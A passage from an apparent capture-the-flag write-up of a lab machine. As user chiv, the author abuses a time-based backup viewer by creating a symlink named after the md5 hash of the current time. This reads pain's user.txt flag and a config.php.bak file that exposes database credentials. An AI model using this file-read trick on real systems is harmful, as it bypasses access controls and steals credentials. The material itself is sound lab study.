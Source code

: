     Current Time: 09:32:40
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic
    DISTRIB_DESCRIPTION="Ubuntu 18.04.4 LTS"



I can also read a file I couldn't read before, `user.txt`:



    chiv@forwardslash:~$ ln -s /home/pain/user.txt $(date | cut -d' ' -f4 | tr -d $'\n' | md5sum | cut -d' ' -f1); backup
    ----------------------------------------------------------------------
            Pain's Next-Gen Time Based Backup Viewer
            v0.1
            NOTE: not reading the right file yet, 
            only works if backup is taken in same second
    ----------------------------------------------------------------------

    Current Time: 09:34:47
    db0e0420************************



### Reading as pain

Checking out the other files owned by pain that chiv can't read,
`/var/backups/config.php.bak` had interesting data:



    chiv@forwardslash:~$ ln -s /var/backups/config.php.bak $(date | cut -d' ' -f4 | tr -d $'\n' | md5sum | cut -d' ' -f1); backup
    ----------------------------------------------------------------------
            Pain's Next-Gen Time Based Backup Viewer
            v0.1
            NOTE: not reading the right file yet, 
            only works if backup is taken in same second
    ----------------------------------------------------------------------

    Current Time: 09:35:53
    <?php
    /* Database credentials. Assuming you are running MySQL
    server with default setting (user 'root' with no password) */
    define('DB_SERVER', 'localhost');
    define('DB_USERNAME', 'pain');
    define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
    define('DB_NAME', 'site');
     
    /* Attempt to connect to MySQL database */
    $link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
     
    // Check connection
    if($link === false){
        die("ERROR: Could not connect. " . mysqli_connect_error());
    }
    ?>
